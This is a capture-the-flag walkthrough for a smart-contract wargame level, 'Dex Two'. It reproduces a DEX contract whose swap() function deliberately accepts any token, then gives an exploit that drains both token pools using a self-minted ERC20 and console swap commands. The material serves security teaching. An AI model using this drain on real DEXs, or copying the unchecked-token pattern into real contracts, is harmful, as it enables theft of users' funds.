 # Dex Two

## Challenge Description

This level will ask you to break `DexTwo`, a subtlely modified `Dex` contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the `DexTwo` contract to succeed in this level.

You will still start with 10 tokens of `token1` and 10 of `token2`. The DEX contract still starts with 100 of each token.

Things that might help:

-   How has the `swap` method been modified?

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(
        address token_address,
        uint amount
    ) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint amount) public {
        require(
            IERC20(from).balanceOf(msg.sender) >= amount,
            "Not enough to swap"
        );
        uint swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(
        address from,
        address to,
        uint amount
    ) public view returns (uint) {
        return ((amount * IERC20(to).balanceOf(address(this))) /
            IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(
        address token,
        address account
    ) public view returns (uint) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(
        address dexInstance,
        string memory name,
        string memory symbol,
        uint initialSupply
    ) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

## Challenge Solution Walkthrough

To exploit the modified `swap()` function and drain all of the funds from the `Dex` contract, follow these steps:

1. Deploy the `DexTwoSolution` contract, which is an ERC20 token contract with an initial supply of 400 tokens. Set the `initialSupply` to 400 when deploying the contract. Use the following Solidity code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract DexTwoSolution is ERC20 {
    constructor(uint256 initialSupply) ERC20("DexTwoSolution", "DTS") {
        _mint(msg.sender, initialSupply);
    }
}
```

2. Deploy the `DexTwo` contract, which is the target contract for this challenge.

3. Transfer 100 `DTS` tokens to the `DexTwo` contract by calling the `transfer()` function of the `DTS` token contract. Also, execute the `approve()` function of the `DTS` token contract to allow the `DexTwo` contract to spend your tokens.

4. Obtain the addresses of `token1`, `token2`, and `DTS` tokens by executing the following commands in the console:

```javascript
> const token1 = await contract.token1()
> const token2 = await contract.token2()
> const dtsToken = "0xDEcc7b8C6d11385f6ed2d0df45EcAc1D654F9DA4"
```

5. Initially, the token amounts for each account are as follows:

|          | Token1 | Token2 | DTS |
| :------: | :----: | :----: | :-: |
|  `Dex`   |  100   |  100   | 100 |
| `player` |   10   |   10   | 300 |

6. Execute the command below to transfer 100 `DTS` tokens to the `DexTwo` contract and receive 100 `token1` in return:

```javascript
> await contract.swap(dtsToken, token1, 100)
```

After this swap, the updated token amounts are as follows:

|          | Token1 | Token2 | DTS |
| :------: | :----: | :----: | :-: |
|  `Dex`   |   0    |  100   | 200 |
| `player` |  110   |   10   | 200 |

7. Proceed by transferring 200 `DTS` tokens to the `DexTwo` contract and receiving 100 `token2` in return:

```javascript
> await contract.swap(dtsToken, token2, 200)
```

After this swap, the updated token amounts become:

|          | Token1 | Token2 | DTS |
| :------: | :----: | :----: | :-: |
|  `Dex`   |   0    |   0    | 400 |
| `player` |  110   |  110   |  0  |

By following these steps, you will successfully drain all of the funds from the `DexTwo` contract by exploiting the modified `swap()` function and utilizing the `DTS` token contract.

## Challenge Description After Solving

As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.

Just because a contract claims to implement the [ERC20 spec](https://eips.ethereum.org/EIPS/eip-20) does not mean it's trust worthy.

Some tokens deviate from the ERC20 spec by not returning a boolean value from their `transfer` methods. See [Missing return value bug - At least 130 tokens affected](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca).

Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.

If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.

